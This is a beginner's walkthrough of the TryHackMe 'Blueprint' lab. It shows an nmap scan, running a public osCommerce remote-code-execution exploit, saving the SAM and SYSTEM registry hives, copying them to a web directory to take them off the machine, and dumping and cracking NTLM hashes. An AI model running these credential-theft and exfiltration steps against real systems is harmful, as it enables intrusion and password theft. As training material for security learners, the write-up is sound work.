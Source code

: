 ## TryHackMe - [Blueprint](https://tryhackme.com/room/blueprint)
> Completed 16th March 2022.

This is the attack methodology I used for TryHackMe's Blueprint box.
I have based this document on a general concept of the intrusion kill-chain:
Reconnaissance > Weaponization > Delivery > Exploitation > Installation > Command & Control > Actions on Objective

---
### Environment
#### Operating System
- Latest kali-VM rolling update

#### Tools
- Python

---
### Methodology
#### Objectives/Flags
 1. "Lab" user NTML hash decrypted
 2. root.txt

---
#### Reconnaissance
First I checked for open ports using a basic nmap scan
```bash
nmap -t4 <TargetIP>
```
```
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
443/tcp   open     https
445/tcp   open     microsoft-ds
512/tcp   filtered exec
1152/tcp  filtered winpoplanmess
1875/tcp  filtered westell-stats
3306/tcp  open     mysql
4662/tcp  filtered edonkey
7741/tcp  filtered scriptview
8080/tcp  open     http-proxy
9010/tcp  filtered sdr
20005/tcp filtered btx
26214/tcp filtered unknown
27000/tcp filtered flexlm0
49152/tcp open     unknown
49153/tcp open     unknown
49154/tcp open     unknown
49158/tcp open     unknown
49159/tcp open     unknown
49160/tcp open     unknown
```
I could see some HTTP open ports and decided to see what was accessible
```
http://<TargetIP>:8080/
  http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
I could determine the framework being used for the commerce page was oscommerce-2.3.4. Using this information I visited Exploit-DB to see what was available.
```
https://www.exploit-db.com/exploits/50128
```

#### Weaponization 
N/A

#### Delivery
N/A

#### Exploitation
Using the remote-code-execution exploit from the DB, the target was attacked
```
python 50128.py http://<TargetIP>:8080/oscommerce-2.3.4/catalog/
```
Once the attack was successful, I now had RCE shell access into the target.

#### Installation 
N/A

#### Command & Control
N/A

#### Actions on Objective
I started by trying to determine the nature of the host and explore it's file directories
```bash
whoami
  nt autheority\system
```
```bash
DIR C:\users
  Administrator
    C:\users\Administrator\Desktop\root.txt.txt
      more C:\users\Administrator\Desktop\root.txt.txt
        THM{*}
  DefaultAppPool
  Lab
```
The filesystem was Windows and exploring user files I happened to come across my first objective ```root.txt.txt```. According to my mentor the filename was done this way to obfuscate it from broad searches.
My next objective was to locate and extract the NTML hash of the "Lab" user.

I must admit I didn't know what NTML was or where it was found however I had a reasonable understanding through hack-sims that this was going to be a hashed password found somewhere on the system. After some googling I was able to understand that this hash was most likely going to be in the Windows "SAM" file generally located at ```C:\Windows\system32\config\SAM```. (source: https://security.stackexchange.com/questions/113295/location-of-password-hashes-on-a-windows-local-machine)
```bash
DIR C:\Windows\system32\config\
```
I could see that the file existed on the system and my goal was to now try and exfiltrate this file/data out of the target to my local machine. I had a lot of trial and error trying to get at this file. Various failures included printing its contents, copying it to the visible HTTP directory, Uploading it to a local-http/ftp server.
Eventually I stumbled upon a page which explained how this data could be exported from its registry key. (source: https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-hashes-from-sam-registry)
```bash
reg save hklm\system system
reg save hklm\sam sam
```
With the data exported out of the system-files I could now move them around without any system-protection. I moved these files to the visible HTTP directory.
```bash
copy <missing-data> http://<TargetIP>:8080/oscommerce-2.3.4/docs/
```
From my localhost I was able to save these files. My next step was to dump the hashes out of the files. Using the website, I had found earlier I had to find a tool that was going to assist me.
```bash
python pwdump.py /home/kali/tools/TryHackMe/Blueprint/system /home/kali/tools/TryHackMe/Blueprint/sam
  Administrator:500:<hash>:<hash>:::
  Guest:501:<hash>:<hash>:::
  Lab:1000:<hash>:<hash>:::
```
Success, I've got the hash of the "Lab" user and now needed to decrypt this. I spent some time trying to mess with HashCat to crack it but after some more googling I was directed to Crackstation.
```
https://crackstation.net/
   Insert <hash> -> crack
     <password>
```
I spared my system it's resources and was able to instantly receive the cleartext password.

---
### After-action
#### What I've learned
This was the first "real" box that I've had a go at and had a blast from the whole experience. My mentor had helped me connect the dots on reconnaissance and exploitation through finding online resources/code. Once I was in, most of my frustrations was trying to understand what NTML was and more specifically how I was going to extract that information to my localhost. Lastly why burn the computing power when an online service can crack passwords for you?

#### What I would've done differently
Given that this was my first box, I was a bit messy with what I was actually doing on the target Machine. I had rebooted it by attempting to run arbitrary files and possibly executed programs in trial and error.
I would like to record what actions I had taken (including timestamps?) and what failures I had run into for posterity/documentation.
Lastly, I should have spent the extra effort in removing the extracted system files from the export location and even the visible HTTP directory to reduce my footprint.
